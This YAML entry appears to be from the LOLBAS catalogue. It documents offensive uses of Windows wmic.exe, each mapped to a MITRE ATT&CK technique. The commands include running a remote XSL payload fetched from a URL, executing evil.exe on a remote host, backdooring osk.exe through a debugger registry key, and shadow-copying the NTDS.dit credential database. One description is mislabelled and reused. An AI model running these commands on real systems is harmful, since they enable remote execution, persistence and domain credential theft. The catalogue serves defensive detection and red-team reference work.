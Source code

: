 ```yaml
---
name: Wmic.exe
description: The WMI command-line (WMIC) utility provides a command-line interface for WMI
functions:
  execute:
    - description: Execute calc from wmic
      code: wmic.exe process call create calc
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute binary from wmic to evade defensive counter measures
    - description: Add cmd.exe as a debugger for the osk.exe process. Each time osk.exe is run, cmd.exe will be run as well.
      code: wmic.exe process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute binary by manipulate the debugger for a program to evade defensive counter measures
    - description: Execute evil.exe on the remote system.
      code: wmic.exe /node:"192.168.0.1" process call create "evil.exe"
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute binary on a remote system
    - description: Create a scheduled execution of C:\GoogleUpdate.exe to run at 9pm.
      code: wmic.exe /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute binary with scheduled task created with wmic on a remote computer
    - description: Create a volume shadow copy of NTDS.dit that can be copied.
      code: wmic.exe /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute binary on remote system
    - description: Create a volume shadow copy of NTDS.dit that can be copied.
      code: wmic.exe process get brief /format:"https://raw.githubusercontent.com/LOLBAS-Project/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute binary on remote system
    - description: Executes JScript or VBScript embedded in the target remote XSL stylsheet.
      code: wmic.exe process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute script from remote system
  ads:
    - description: Execute a .EXE file stored as an Alternate Data Stream (ADS)
      code: wmic.exe process call create "c:\ads\file.txt:program.exe"
      mitreid: T1096
      mitrelink: https://attack.mitre.org/wiki/Technique/T1096
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute binary file hidden in Alternate data streams to evade defensive counter measures
resources:
    - resource: https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
    - resource: https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
    - resource: https://twitter.com/subTee/status/986234811944648707
fullpath:
    - path: C:\Windows\System32\wmic.exe
    - path: C:\Windows\SysWOW64\wmic.exe
detection:
  - IOC: Wmic getting scripts from remote system
acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

